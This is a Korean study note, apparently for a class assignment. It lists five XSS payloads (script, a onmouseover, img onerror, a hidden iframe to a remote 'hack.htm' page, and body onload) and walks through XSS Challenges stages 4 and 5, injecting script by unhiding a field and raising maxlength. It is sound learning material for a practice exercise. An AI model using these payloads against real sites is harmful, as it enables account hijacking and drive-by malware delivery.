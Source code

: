 ## **xss에 이용되는 태그들 대표적인것 5개**

1. 가장 기본적인 script 태그
    
    <script>alert("hi")</script> 
    
    가장 기본적인 구문으로 대놓고 script태그를 넣어 alert를 실행시키는 구문이다.
    
    이 구문이 실행된다면 해당 사이트는 XSS에 대한 대책이 전혀 없다고 볼 수 있다.
    
2. a 태그 
    
    <a onmouseover="alert('hi')">
    
    a 태그를 이용한 공격이다. onmouseover 이벤트를 통해 공격을 실행한다.
    
3. img태그
    
    <img src=# onerror="alert('hi')">
    
    img 태그를 이용한 공격이다. 고의적으로 없는 src주소를 지정하고 onerror 이벤트를 통해 공격을 실행한다.
    
4. iframe태그
    
    iframe 태그를 이용하여 악성 코드가 포함된 사이트로 세션을 연결해 자동으로 프로그램을 다운로드 시킬 수 있다. 
    
    <iframe src="[http://sameple.com/~bbs/hack.htm](http://sameple.com/~bbs/hack.htm)" name "Click Here" width= "0" height="0" frameborder="0"> </iframe>
    
5. body태그
    
    온로드 속성 또는 배경 속성과 같은 더 모호한 속성을 사용하려 XSS 페이로드를 <body>태그 안으로 전달할 수 있다.
    
    <body onload=alert("XSS")>
    

## XSS Challenges Stage #4

https://www.notion.so/xss_assignment-50847274f5274d80902fb83c1d655271#0bc6a16ee58c47bcb4780ce2b14d6c25

3번과 똑같은 방식으로 진행을 해봤더니 오류가 났다.

힌트를 살펴보니 보이지 않는 field가 있다고 하길래 소스코드를 살펴보았더니 위의 그림과 같이 소스코드가 히든으로 숨겨겨 있는 것을 확인할 수 있었다.  해당 type을 눈에 보이도록 text로 바꾸고

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a4f667e6-7870-4577-bc21-cb1a330d2a47/Untitled.png)

value 값으로 "><script>alert(document.domain);</script><"을 입력하여 XSS공격을 성공시켰다.

## XSS Challenges Stage #5

이 문제에서는 value에 값이 입력되는 것을 보고 "><script>alert(document.domain);</script>를 입력하려고 했지만 글자가 적히다 말았다. 소스코드를 살펴보니 maxlength를 15로 제한한 것이 원인이었다. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/bb70df31-8545-4627-99fe-9a3acf09bfc7/Untitled.png)

그래서 maxlength값을 15대신 넉넉하게 70으로 잡고 "><script>alert(document.domain);</script>를 입력하여 XSS공격을 성공시켰다.
